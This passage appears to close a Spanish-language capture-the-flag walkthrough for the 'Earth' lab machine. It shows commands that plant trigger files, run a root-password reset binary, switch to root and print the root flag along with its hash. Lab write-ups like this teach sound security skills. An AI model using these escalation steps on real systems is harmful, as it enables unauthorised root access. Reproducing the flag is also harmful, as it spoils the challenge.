sh-5.1$ touch /dev/shm/Zw7bV9U5
sh-5.1$ touch /dev/shm/kHgTFI5G
sh-5.1$ reset_root 
CHECKING IF RESET TRIGGERS PRESENT...
RESET TRIGGERS ARE PRESENT, RESETTING ROOT PASSWORD TO: Earth
```

Parece que ha funcionado porque el mensaje es diferente. Probemos a entrar como el usuario root con el password proporcionado:


```bash
sh-5.1$ su root
password: [Earth]
```

Parece funcionar.

```bash
[root@earth secure_message]# whoami
root
```
-------------------------------------------------------------------------------

Entramos en el directorio home de root:

```bash
[root@earth secure_message]# cd /root
[root@earth ~]# ls -la
total 36
dr-xr-x---.  3 root root  216 Nov  1  2021 .
dr-xr-xr-x. 17 root root  244 Nov  1  2021 ..
-rw-------.  1 root root  663 Oct 11  2021 anaconda-ks.cfg
lrwxrwxrwx.  1 root root    9 Oct 12  2021 .bash_history -> /dev/null
-rw-r--r--.  1 root root   18 Jan 28  2021 .bash_logout
-rw-r--r--.  1 root root  141 Jan 28  2021 .bash_profile
-rw-r--r--.  1 root root  429 Jan 28  2021 .bashrc
drwxr-xr-x.  3 root root   17 Oct 12  2021 .cache
-rw-r--r--.  1 root root  100 Jan 28  2021 .cshrc
-rw-------   1 root root   20 Nov  1  2021 .lesshst
-rw-------.  1 root root 1139 Oct 12  2021 root_flag.txt
-rw-r--r--.  1 root root  129 Jan 28  2021 .tcshrc
-rw-------   1 root root    0 Nov  1  2021 .viminfo
-rw-r--r--.  1 root root   60 Oct 12  2021 .vimrc

```

-------------------------------------------------------------------------------

y finalmente mostramos la flag:

```bash
[root@earth ~]# cat root_flag.txt 

              _-o#&&*''''?d:>b\_
          _o/"`''  '',, dMF9MMMMMHo_
       .o&#'        `"MbHMMMMMMMMMMMHo.
     .o"" '         vodM*$&&HMMMMMMMMMM?.
    ,'              $M&ood,~'`(&##MMMMMMH\
   /               ,MMMMMMM#b?#bobMMMMHMMML
  &              ?MMMMMMMMMMMMMMMMM7MMM$R*Hk
 ?$.            :MMMMMMMMMMMMMMMMMMM/HMMM|`*L
|               |MMMMMMMMMMMMMMMMMMMMbMH'   T,
$H#:            `*MMMMMMMMMMMMMMMMMMMMb#}'  `?
]MMH#             ""*""""*#MMMMMMMMMMMMM'    -
MMMMMb_                   |MMMMMMMMMMMP'     :
HMMMMMMMHo                 `MMMMMMMMMT       .
?MMMMMMMMP                  9MMMMMMMM}       -
-?MMMMMMM                  |MMMMMMMMM?,d-    '
 :|MMMMMM-                 `MMMMMMMT .M|.   :
  .9MMM[                    &MMMMM*' `'    .
   :9MMk                    `MMM#"        -
     &M}                     `          .-
      `&.                             .
        `~,   .                     ./
            . _                  .-
              '`--._,dd###pp=""'

Congratulations on completing Earth!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_b0da9554d29db2117b02aa8b66ec492e]
```
